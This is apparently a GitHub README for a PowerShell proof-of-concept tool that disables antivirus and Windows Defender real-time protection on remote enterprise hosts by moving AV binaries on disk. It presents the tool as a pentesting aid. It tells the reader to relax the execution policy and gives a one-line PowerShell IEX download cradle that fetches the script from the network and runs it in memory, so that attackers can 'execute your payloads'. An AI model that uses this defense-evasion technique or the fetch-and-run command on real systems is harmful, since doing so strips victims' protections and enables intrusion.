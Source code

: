 # Invoke-NeutralizeAV
Quick PoC I Wrote for Bypassing Next Gen AV Remotely for Pentesting

My projects are my own and do not reflect my employer

# Description
I created this PoC based on a recent discovery of mine during a penetration test where I had SYSTEM access but could not stop AV processes or Services.  I found that simply moving the binaries on disk to another directory essentially neutralized the running AV process.  Use this script to effectively shut down AV across an enterprise environment so you can execute your payloads, etc.  There's also an "Enable" switch to set everything back when finished.  I recently added support to remotely and temporarily disable "Real Time Protection" for Windows Defender as well if it's detected on the remote host.

# Instructions
The assumption is being made that you are first running as SYSTEM or at least a Local or Domain Admin that can elevate to SYSTEM on a Windows OS with PowerShell.  If AV is enabled on the host you plan to run this scipt on, it will likely need to be neutralized there first before this can be leveraged to disable remote targets.  I was forced to remove my blog that explains in detail how this works.

Paste the following into the elevated CMD prompt to download the PS1 script.  (Note: You may need to first enable scripts on the host with `Set-ExecutionPolicy unrestricted`)

1) `powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/curtbraz/Invoke-NeutralizeAV/master/Invoke-NeutralizeAV.ps1')`

2) Enjoy! :)

<p align="center"><img align="center" width="600" alt="Invoke-NeutralizeAV Screenshot" src="https://i.imgur.com/IH7epMX.png"></p>

# Closing Thoughts
This is a quick and dirty PoC.  I plan to fix it up and add more functionality soon (arguments instead of prompts, host lists, disabling services & other bypass methods first, quiet mode, etc), but hopefully in the meantime this will assist people to more quickly bypass next gen AV on remote hosts during a pentest.  I wrote this script in a dynamic way so I didn't have to keep an ongoing list of current AV Service Names.
